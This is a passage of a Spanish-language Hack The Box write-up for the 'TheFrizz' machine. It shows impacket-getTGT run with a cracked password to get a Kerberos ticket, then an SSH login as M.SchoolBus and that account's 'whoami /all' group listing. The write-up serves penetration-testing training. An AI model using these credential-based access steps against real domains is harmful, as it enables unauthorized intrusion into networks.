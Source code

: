 ![alt text](/assets/img/writeups/hackthebox/theFrizz-htb-s7/image-17.png)

## Conexión a M.SchoolBus

Una vez tenemos las credenciales de M.SchoolBus podemos conectarnos por ssh y ver sus permisos.

Primero al igual que antes necesitamos el TGT para ssh.

```bash
impacket-getTGT frizz.htb/M.SchoolBus:<cracked-password> -dc-ip 10.10.11.60
```

Ahora conectamos por ssh.

```bash
export KRB5CCNAME=/home/kali/Downloads/frizz-htb/M.SchoolBus.ccache
ssh M.SchoolBus@frizz.htb
```

```powershell
PS C:\Users\M.SchoolBus> whoami /all 

USER INFORMATION
----------------

User Name         SID
================= ==============================================
frizz\m.schoolbus S-1-5-21-2386970044-1145388522-2932701813-1106


GROUP INFORMATION
-----------------

Group Name                                   Type             SID                                            Attributes
============================================ ================ ============================================== ===============================================================
Everyone                                     Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users              Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access   Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                         Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users             Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization               Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
```